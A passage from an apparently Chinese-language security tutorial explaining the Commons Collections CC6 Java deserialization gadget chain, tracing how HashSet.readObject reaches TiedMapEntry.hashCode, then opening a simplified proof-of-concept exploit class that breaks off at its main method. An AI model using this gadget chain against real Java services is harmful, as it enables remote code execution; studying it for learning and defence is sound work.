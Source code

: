 **存储 `HashMap` 的 `keySet()`**：`HashSet` 用来存储 `HashMap` 的 `keySet()`，即存储 `LazyMap` 中的键集合。在这个步骤中，`HashSet` 只是一个容器，用来接收 `HashMap` 中的条目集。`keySet()` 返回的是 `LazyMap` 中所有的键，而这些键与恶意的 `TiedMapEntry` 关联，这些条目会触发攻击链中的转换器（Transformer）。

`HashSet` 在反序列化时也会参与触发过程。当我们将这个 `HashSet` 序列化并反序列化后，`LazyMap` 和其中绑定的 Transformer 链会被触发，导致攻击链中的恶意行为得以执行。

在 HashSet 的 readObject 方法中，会调用其内部 HashMap 的 put 方法，将值放在 key 上。

### 关键代码分析

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
    // HashSet内部维护了一个map对象，但是该Map对象的值都是空Object，也就是new Object()
    private transient HashMap<E,Object> map;
    ......
    // Read in all elements in the proper order.
    for (int i=0; i<size; i++) {
        @SuppressWarnings("unchecked")
            E e = (E) s.readObject();
        // 重点在这里，他最终会调用到HashMap的put方法
        map.put(e, PRESENT);
}
// 这里就触发了HashMap的hash方法
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
// 这里就能触发hashCode方法，如果这里的参数Object key是我们准备的TiedMapEntry攻击链对象，这样在反序列化之后就能执行我们的攻击链代码了
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}

```

## POC1(简化版本 - 适合初级学习调试)

ysoserial中的CC6代码中考虑到JDK的不同版本的字段差异处理，以及HashSet和HashMap中都使用到了放射的方法进行set字段值，其实我也不太理解为什么ysoserial的代码写的那么复杂，明明那些字段值可以不通过反射放进去的.....可能有其它额外的考虑，这里为了方便初学者学习，所以可以先调试这一份代码，这份代码熟练了之后可以再看一下下边我改写的ysoserial的代码，循序渐进的来。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CommonsCollections6 {
    static String serialFileName = "commons-collections6.ser";

    public static void main(String[] args) throws Exception {
        cc6bySimplify();
        verify();
```